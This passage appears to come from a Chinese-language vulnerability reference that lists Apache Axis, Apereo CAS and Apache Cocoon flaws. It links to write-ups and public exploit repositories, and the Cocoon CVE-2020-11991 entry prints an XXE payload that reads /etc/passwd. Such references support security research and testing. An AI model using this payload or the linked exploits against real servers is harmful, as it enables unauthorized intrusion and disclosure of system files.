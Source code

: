**Axis-1.4-RCE**
- 相关文章
    - [axis 1.4 AdminService未授权访问 jndi注入利用](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/axis%201.4%20AdminService%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%20jndi%E6%B3%A8%E5%85%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%88%A9%E7%94%A8/)

- POC | Payload | exp
    - [KibodWapon/Axis-1.4-RCE-Poc](https://github.com/KibodWapon/Axis-1.4-RCE-Poc)

**Axis2默认弱口令**
- 相关文章
    - [【漏洞复现】Axis2默认弱口令后台Getshell](https://mp.weixin.qq.com/s/Gp_FMM-n472wYTBA5lC3lw)

---

### CAS

> 项目地址 : https://github.com/apereo/cas

**Apereo CAS 4.X 反序列化漏洞**

- 相关文章
    - [Apereo CAS 4.X反序列化漏洞分析](https://www.anquanke.com/post/id/198842)
    - [Apereo_CAS_反序列化漏洞分析及利用](https://mp.weixin.qq.com/s/44eEiIQLfY9q-dKUH_GYhw)
    - [Apereo CAS 4.X反序列化漏洞分析及复现](https://www.freebuf.com/news/226149.html)
    - [Apereo CAS 4.X execution参数反序列化漏洞分析](https://xz.aliyun.com/t/7032)
    - [[漏洞复现] Apereo CAS 4.X 反序列化命令执行漏洞](https://www.seanzhang.cn/security/Web/fx_Apereo.html)

- 相关工具
    - [21superman/Cas_Exploit](https://github.com/21superman/Cas_Exploit) - CAS反序列化漏洞利用工具
    - [cL0und/cas4.x-execution-rce](https://github.com/cL0und/cas4.x-execution-rce) - exp for 4.1.x-4.1.6, 4.1.7-4.2.x, padding oracle attack
    - [langligelang/CAS_EXP](https://github.com/langligelang/CAS_EXP)
    - [MrMeizhi/ysoserial-mangguogan](https://github.com/MrMeizhi/ysoserial-mangguogan) - ApereoCas反序列化回显与检测
    - [nice0e3/Cas_Exploit](https://github.com/nice0e3/Cas_Exploit)

---

### Cocoon

> 官网 : https://cocoon.apache.org/

**CVE-2020-11991 XML 注入**

- 简介

    程序使用了 StreamGenerator 这个方法时,解析从外部请求的 xml 数据包未做相关的限制,恶意用户就可以构造任意的 xml 表达式,使服务器解析达到 XML 注入的安全问题。

- POC | Payload | exp
    ```xml
    POST /v2/api/product/manger/getInfo

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
    <userInfo>
    <firstName>John</firstName>
    <lastName>&ent;</lastName>
    </userInfo>
    ```

---
